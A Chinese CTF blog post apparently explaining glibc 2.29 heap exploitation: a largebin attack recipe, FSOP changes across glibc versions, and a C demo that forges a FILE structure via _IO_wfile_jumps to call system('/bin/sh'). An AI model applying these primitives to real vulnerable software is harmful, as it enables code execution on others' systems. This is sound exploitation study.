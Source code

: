 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      Glibc 2.29下的IO_FILE利用 		 # 标题 
subtitle:   Glibc2.29               # 副标题
date:       2020-08-17 				# 时间
author:     Mr.R 					# 作者
# header-img: img/post-bg-2015.jpg 	# 这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								# 标签
    - CTF
    - Pwn
---
```


## Largebin Attack

2.31中加入了限制，先将小的chunk放入large bin的方法不可行了

![image-20200817003828537](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght4lafd2aj31bc0p87af.jpg)

但是现在仍然可以使用这个方法

![image-20200817004014478](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght4n4l9suj316u0aaq50.jpg)



具体用法:

```
chunk0 = malloc(0x500)#0
malloc(0x10)#1
chunk1 = malloc(0x450)#2
malloc(0x10)#3
free(chunk0)
malloc(0x600)		//将chunk0放入large bin

free(chunk1)		//将chunk1放入unsorted bin
chunk0->bk_nextsize = target-0x20

malloc(0x420)  //触发large bin attack
```

## FSOP

### glibc2.23

glibc2.23中只需要伪造vtable的地址即可

### glibc2.24+

glibc2.24中加入了vtable_check，导致无法伪造vtable地址，但是可以使用其他的vtable，常用的是_IO_str_jumps,

利用其中的OVERFLOW和FINISH来进行函数调用

### glibc2.29

#### 1.复写vtable

glibc2.23中我们伪造vtable是因为其不可写，但是在glibc2.29中，vtable是可写的

![image-20200817005301996](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght50g287lj315m03a3zd.jpg)

![image-20200817005319342](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght50qfk4bj31mg03iq3i.jpg)

因此可以直接覆写_IO_file_jumps

#### 2.利用其他vtable

有时候我们并不能做到任意地址覆写，也就无法去覆盖_IO_file_jumps，这时仍需要利用类似2.24+的方法



但是glibc2.29中，_IO_str_jumps中的OVERFLOW和FINISH均不可使用了，我们对比一下

##### 2.27:

![image-20200817005708646](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght54p8t0uj31bu0fotb8.jpg)

![image-20200817005807286](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght55qm4idj31m60my42c.jpg)

##### 2.29:

![image-20200817005545322](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght53aeuxqj316o0fcmza.jpg)

![image-20200817005621297](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght53xrrzej316a0ikgoy.jpg)

可以看到2.27中，free和malloc的位置都是由fp内部的函数指针决定的，因此可以通过伪造fp结构体来做到任意函数执行

但是在2.29中，这两处都被改为了free和malloc，也就是不能够再进行利用了。



经过一段时间的查找后，我发现_IO_wfile_jumps中仍包含有大量的函数指针，其中\_IO_wfile_sync函数较好利用

![image-20200817010304968](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght5awr692j31fg0u0dln.jpg)

![image-20200817010337407](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght5bh1qppj31bu0u0ai2.jpg)

仅需满足以下条件即可:

```
1.fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base
2.fp->_wide_data->_IO_read_ptr - fp->_wide_data->_IO_read_end
3.*(fp->_codecvt+4)=func,参数就是fp->_codecvt
```

为了触发fsop，还需要满足fsop所要求的fp参数

demo:

```c
#include<stdio.h>
#include<stdlib.h>
#include<string.h>
#define _IO_list_all 0x7ffff7fbc660
#define _IO_wfile_jumps 0x7ffff7fbd020

int main(){
    struct _IO_FILE *fp1 = malloc(0x500);
    size_t *fp2 = malloc(0x500);
    unsigned long func[10];
    memcpy(func,"/bin/sh\x00",8);
    func[4]=system;
    size_t *ptr = _IO_list_all;
    *ptr = fp1;
    fp1->_mode=0;
    fp1->_IO_write_ptr = 1;
    fp1->_IO_write_base = 0;
    *(unsigned long *)((unsigned long)fp1+0xd8) = _IO_wfile_jumps+8*9;
    fp1->_wide_data = fp2;
    fp1->_codecvt=func;
    fp2[4] = 0;
    fp2[3] = 1;
    fp2[0] = 1;
    fp2[1] = 0;
    exit(0);
    return 0;
}
```

![image-20200817013459090](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght6834pnvj30yg05a75c.jpg)